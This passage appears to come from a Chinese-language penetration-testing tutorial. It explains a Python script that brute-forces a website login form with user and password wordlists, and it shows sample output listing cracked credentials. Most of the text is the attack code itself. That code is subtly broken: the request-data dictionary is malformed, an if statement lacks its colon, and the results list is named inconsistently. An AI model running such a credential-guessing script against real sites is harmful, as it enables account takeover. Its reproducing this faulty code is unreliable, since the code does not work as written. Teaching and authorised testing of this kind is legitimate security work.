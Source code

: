 ```py
python bruteforcepasswords.py userlists.txt passwordlist.txt

Found User and Password combinations:

root:toor

angela:trustno1

bob:password123

john:qwerty

```

## 工作原理…

在最初导入必要的模块并检查系统参数后，我们设置了密码检查：

```py
filename1=str(sys.argv[1])
filename2=str(sys.argv[2])
userlist = open(filename1,'r')
passwordlist = open(filename2,'r')
```

文件名参数存储在变量中，然后被打开。`r`变量表示我们以只读方式打开这些文件。

我们还指定了目标，并初始化一个数组来存储我们找到的任何有效凭据：

```py
url = "http://www.vulnerablesite.com/login.html"
foundusers = []
FailStr="Incorrect User or Password"
```

前面代码中的`FailStr`变量只是为了让我们的生活更轻松，通过使用一个简短的变量名来代替整个字符串的输入。

此方法的主要部分在一个嵌套循环中，我们在其中进行自动密码检查：

```py
for user in userlist:
  for password in passwordlist:
    data = urllib.urlencode({"username="user&"password="password })
    request = urllib2.urlopen(url,data)
    response = request.read()
    if(response.find(FailStr)<0)
      foundcreds.append(user+":"+password)
    request.close()
```

在此循环中，将发送一个包含用户名和密码的请求。如果响应不包含指示用户名和密码组合无效的字符串，那么我们知道我们有一组有效的凭据。然后将这些凭据添加到我们之前创建的数组中。

一旦尝试了所有的用户名和密码组合，我们就会检查数组，看看是否有任何凭据。如果有，我们就打印出凭据。如果没有，我们就打印出一个悲伤的消息，告诉我们我们什么都没找到：

```py
if len(foundcreds)>0:
  print "Found User and Password combinations:\n"
  for name in foundcreds:
    print name+"\n"
else:
  print "No users found\n"
```
